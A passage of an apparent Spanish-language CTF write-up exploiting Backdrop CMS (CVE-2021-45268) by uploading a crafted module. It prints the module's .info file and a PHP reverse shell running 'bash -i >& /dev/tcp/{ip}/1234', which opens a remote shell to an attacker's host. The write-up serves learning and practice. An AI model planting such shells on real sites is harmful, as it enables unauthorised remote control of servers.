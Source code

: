 ![sniffingWeb](sniffing_web.png){: .shadow}

Con las credenciales entramos en la web y tenemos la siguiente interfaz:

![backdropWEB](backdrop_http.png){: .shadow}

Despues de revisar la web y no encontrar algo interesante, buscando en internet **vulnerabilidades del CMS Backdrop**, encontramos un **CSRF(Cross-Site Request Forgery)**, el cúal consiste en la explotación de un recurso por parte de un usuario en el cual el **sitio web confía** [CVE-2021-45268](https://nvd.nist.gov/vuln/detail/CVE-2021-45268)

![CVE-2021-45268](CVE-2021-45268_concept.png){: .shadow}

La explotación consiste en subir código malicioso por medio de un plugin. Para ello necesitamos permisos administradores, el cual obviamente tenemos como `jpardella`:

> Primero necesitamos crear un plugin con las características necesarias de **Backdrop**
> 
> Por defecto un plugin/módulo necesita los archivos _.info_ y _.module_

```console
───────┬────────────────────────────────────────
       │ File: rce.info
───────┼────────────────────────────────────────
   1   │ name = shell
   2   │ description = remote code execution
   3   │ backdrop = 1.x
   4   │ type = module
───────┴────────────────────────────────────────
───────┬────────────────────────────────────────
       │ File: rce.module   <EMPTY>
───────┴────────────────────────────────────────
```

> Los campos especificados en cada archivo son obligatorios (menos la descripción) paraque sean recnocidos como un módulo
{: .prompt-tip}

> Con esto listo ahora necesitamos agregar le archivo malicioso, en esta ocasión una **Shell reversa en php**

```php
<?php
  $ip = $_GET['ip'];

  $command = "bash -c 'bash -i >& /dev/tcp/{$ip}/1234 0>&1'";
  exec($command);
?>
```

Por último metemos todos estos archivos en una carpeta de nombre X y lo comprimimos en un archivo formato `.tar`

> Es importante que los archivos X.info, X.module y la carpeta donde las coloques para comprimirlos tengan el mismo nombre (rce en mi caso)
{: .prompt-warning}
